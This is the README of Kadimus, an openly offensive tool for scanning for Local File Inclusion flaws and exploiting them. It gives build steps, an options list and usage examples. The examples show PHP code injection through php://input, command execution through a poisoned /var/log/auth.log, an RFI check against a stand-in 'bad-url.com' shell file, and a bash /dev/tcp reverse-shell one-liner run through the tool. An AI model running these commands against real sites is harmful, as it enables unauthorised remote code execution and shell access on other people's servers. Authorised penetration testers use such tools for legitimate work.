  [![Rawsec's CyberSecurity Inventory](https://inventory.rawsec.ml/img/badges/Rawsec-inventoried-FF5050_flat.svg)](https://inventory.rawsec.ml/tools.html#Kadimus)
 [![GitHub stars](https://img.shields.io/github/stars/P0cL4bs/Kadimus.svg)](https://github.com/P0cL4bs/Kadimus/stargazers)
 [![GitHub license](https://img.shields.io/github/license/P0cL4bs/Kadimus.svg)](https://github.com/P0cL4bs/Kadimus/blob/master/license.txt)

# Kadimus
LFI Scan &amp; Exploit Tool
--
Kadimus is a tool to check sites to lfi vulnerability , and also exploit it

Features:

- [x] Check all url parameters
- [x] /var/log/auth.log RCE
- [x] /proc/self/environ RCE
- [x] php://input RCE
- [x] data://text RCE
- [x] Source code disclosure
- [x] Multi thread scanner
- [x] Command shell interface through HTTP Request
- [x] Proxy support (socks4://, socks4a://, socks5:// ,socks5h:// and http://)
- [x] Proxy socks5 support for bind connections

## Compile:

```sh
$ git clone https://github.com/P0cL4bs/Kadimus.git
$ cd Kadimus
```

You can run the configure file:

```sh
./configure
```

Or follow this steps:

### Installing libcurl:
* CentOS/Fedora

```sh
# yum install libcurl-devel
```

* Debian based

```sh
# apt-get install libcurl4-openssl-dev
```

* Mac OS X based

```sh
$ brew install openssl
```

### Installing libpcre:
* CentOS/Fedora

```sh
# yum install pcre-devel
```

* Debian based

```sh
# apt-get install libpcre3-dev
```

* Mac OS X based

```sh
$ brew install pcre
```

### Installing libssh:

* CentOS/Fedora

```sh
# yum install libssh-devel
```

* Debian based

```sh
# apt-get install libssh-dev
```

* Mac OS X based

```sh
$ brew install libssh
```

### And finally:

```sh
$ make
```
## Options:

```
  -h, --help                    Display this help menu

  Request:
    -B, --cookie STRING         Set custom HTTP Cookie header
    -A, --user-agent STRING     User-Agent to send to server
    --connect-timeout SECONDS   Maximum time allowed for connection
    --retry-times NUMBER        number of times to retry if connection fails
    --proxy STRING              Proxy to connect, syntax: protocol://hostname:port

  Scanner:
    -u, --url STRING            URL to scan/exploit
    -U, --url-list FILE         File contains url list to scan
    -o, --output FILE           File to save output results
    -t, -threads NUMBER         Number of threads (2..1000)

  Explotation:
    --parameter STRING          Parameter name to inject exploit
                                (only needed by RCE data and source disclosure)

  RCE:
    -T, --technique=TECH        LFI to RCE technique to use
    -C, --code STRING           Custom PHP code to execute, with php brackets
    -c, --cmd STRING            Execute system command on vulnerable target system
    -s, --shell                 Simple command shell interface through HTTP Request

    --connect STRING            Ip/Hostname to connect
    -p, --port NUMBER           Port number to connect or listen
    -l, --listen                Bind and listen for incoming connections

    --ssh-port NUMBER           Set the SSH Port to try inject command (Default: 22)
    --ssh-target STRING         Set the SSH Host

    RCE Available techniques

      environ                   Try run PHP Code using /proc/self/environ
      input                     Try run PHP Code using php://input
      auth                      Try run PHP Code using /var/log/auth.log
      data                      Try run PHP Code using data://text

    Source Disclosure:
      -S, --get-source          Try get the source file using filter://
      -f, --filename STRING     Set filename to grab source [REQUIRED]
      -O FILE                   Set output file (Default: stdout)

```

## Examples:

### Scanning:
```
./kadimus -u localhost/?pg=contact -A my_user_agent
./kadimus -U list.txt --threads 10 --connect-timeout 10 --retry-times 0
```
### Get source code of file:
```
./kadimus -u localhost/?pg=contact -S -f "index.php%00" -O local_output.php --parameter pg
```
### Execute php code:
```
./kadimus -u localhost/?pg=php://input%00 -C '<?php echo "pwned"; ?>' -T input
```

### Execute command:
```
./kadimus -t localhost/?pg=/var/log/auth.log -T auth -c 'ls -lah' --ssh-target localhost
```
### Checking for RFI:

You can also check for RFI errors, just put the remote url on resource/common_files.txt
and the regex to identify this, example:


```php
/* http://bad-url.com/shell.txt */
<?php echo base64_decode("c2NvcnBpb24gc2F5IGdldCBvdmVyIGhlcmU="); ?>
```

in file:
```
http://bad-url.com/shell.txt?:scorpion say get over here
```

### Reverse shell:
```
./kadimus -u localhost/?pg=contact.php -T data --parameter pg -l 12345 -c 'bash -i >& /dev/tcp/127.0.0.1/12345 0>&1' --retry-times 0
```
